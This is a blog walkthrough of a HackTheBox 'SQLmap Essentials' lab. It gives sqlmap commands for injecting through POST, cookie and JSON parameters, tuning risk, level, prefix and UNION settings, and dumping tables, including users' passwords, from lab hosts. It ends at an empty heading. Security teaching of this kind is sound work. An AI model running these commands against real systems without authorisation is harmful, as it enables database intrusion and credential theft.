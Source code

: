 ```yaml
---
title: "SQLmap Essentials - HackTheBox"
date: 2025-01-07 00:00:00 +0300
categories: [SQLmap Essentials]
tags: [SQLmap Essentials, cheatsheet, HackTheBox]
---
```



# SQLmap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

While I wait for the final skill assessment payload to get the flag which is taking a little too long I decided to write this walkthrough. It is among the labs I enjoyed much during the Bug Bounty Path.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 ![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials1.png)



Questions:


`1. What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

    sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2
    


From the command:


`--data - speecifies that the HTTP data provided should be sent in a POST request.
id=*1 - This is the parameter of interest. The asterisk is a custom injection marker.
--batch - allows the running of the command without any user input.
--dump - displays data from a specified database table
-T - specifies database table.`



`2. What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

    sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3


From the command:

  `--cookie - specifies the HTTP cookies that should be sent with the POST requests.`



`3. What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials2.png)


    sqlmap -r req.txt  --batch --dump  -T flag4 

While it is applicable in this lab, we may also use the following command.

    sqlmap -u 'http://SERVERIP:PORT/case4.php'  --data={'"id":1'} --batch --dump  -T flag4

    

# Attack Tuning

Sqlmap comes right off the bat as a very strong tool, though it is capable to do more with some tuning by using flags that increase the accuracy of your scan. These may include flags for Level/Risk, Status Codes, Text and Techniques etc.

In this section we will use some of the above-mentioned flags that will dig deeper in our scans to achieve our goals. Follow me as we do it.

Questions

`1. What's the contents of table flag5? (Case #5) `

This challenges indicaes an OR SQLi vulnerability for the parameter 'id'. For this we will have to use the Level/Risk flags by raising the risk level. This is done because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements are actively modifying the database content. 

    sqlmap -u http://SERVERIP:PORT/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5

    sqlmap -u http://SERVERIP:PORT/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5 -dbs testdb -dbms MYSQL


From the command:

  `--no-cast - This flag ensures that you get the correct content.` 
  `--risk - [1-3]  extends the risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).`
  `--level - [1-5] extends  boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).`
  `--dbs - The database in question.`
  `--dbms - The underlying Database schema being used.`



`2. What's the contents of table flag6? (Case #6)`

The challenge has a vulnerable parameter col. This challenge requires the use of the prefix flag.

    sqlmap -u 'http://SERVERIP:PORT/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'

From the command:

  `--prefix -  used to specify a prefix that will be added to the payloads sent by SQLmap during its testing process`

  

`3. What's the contents of table flag7? (Case #7)`

The challenge has a vulnerable parameter at id and it is vulnerable using a UNION Query based technique. This means that we have to use the Union flag.

    sqlmap -u 'http://SERVERIP:PORT/case7.php?id=1' -T flag7 --dump --batch --risk 3 --level 5 --union-col=5

From the Command:

  `--union-col=5 - From the provided exercise we can manually count the columns in the table, so we include that in the command`

  

# Database Enumeration

Database enumaration requires the knowledge of how to use flags in your command. The `man sqlmap` and `sqlmap --help` can be of help with this.

Questions

`1. What's the contents of table flag1 in the testdb database? (Case #1)`

This challenge requires to know the names of the Database containing the table in question and the Database schema type being used

    sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' -T flag1 --dump --batch --risk 3 --level 5 --dbms MYSQL -D testdb
    


# Advanced Database Enumeration

Question

`1. What's the name of the column containing "style" in it's name? (Case #1)`

After looking into the sqlmap manual page we should now know what flag to use in order to get contents of the 'style' column

    sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' --batch --search -C "style"

From the command: 

  `search -C - Used to search for databases, tables, and columns of interest. The -C flag represents columns.`

  

`2. What's the Kimberly user's password? (Case #1)`

    sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' --dump --batch --columns -C name,password -T users

 From the command:

  `column - Lists the columns specified`

  

# Bypassing Web Application Protections







